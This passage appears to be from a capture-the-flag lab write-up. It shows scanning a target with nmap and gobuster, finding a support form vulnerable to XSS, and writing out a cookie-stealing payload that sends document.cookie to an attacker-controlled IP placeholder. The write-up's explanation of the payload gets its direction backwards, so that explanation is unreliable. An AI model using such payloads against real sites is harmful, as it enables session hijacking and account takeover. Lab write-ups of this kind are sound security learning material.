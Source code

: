 ```bash
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar 27 13:53:20 2024 -- 1 IP address (1 host up) scanned in 181.72 seconds
```

There are 2 open ports:

22 - ssh

5000 - upnp but it looks like there is web page.

Let's browse into via port 5000:


![image](https://cdn-images-1.medium.com/max/1000/1*5AX-fC3cIiAXAwGDsu1KGQ.png)


Start gobuster scan to enumarate directories within the system:

```bash
gobuster dir -u http://<target-machine>:5000 -w /usr/share/wordlist/dirbuster/directory-list-lowercase-2.3-medium.txt
```

/dashboard status:500

/support status:200

navigate to /support and there is another webpage with inputs fields:


![image](https://cdn-images-1.medium.com/max/1000/1*GQldw8gK2wO07L-tEuPTDg.png)

The first thing that i thought about is xss. maybe we can hijack user's cookie to get into the dashboard page that is unauthoratized.

So enter inputs inside the field and try xss payload ti understand if the webpage is vulnerable to xss.

I used <script>alert(1)</script>.


![image](https://cdn-images-1.medium.com/max/1000/1*p421Q34mHbQDHth3zXlDkw.png)


This message tells us that it is vulnerable.

Ill use this payload to try cookie hijaching:

```bash
<img src=x onerror=fetch('http://<YourIP>/?c='+document.cookie);>
```

This payload is an html tage that creates reference to src that isn't exist which is "x". 
then, creates attribute "on error" that tells the fetch function to grab cookie from the ip-address that 
will be mentioned in case of error. now, because of src x isn't exist there is an error, and in case of error it pulls 
the cookie from the ip-address that has cookie within it.

**Ill use burp to create the modifications and get the responses.**
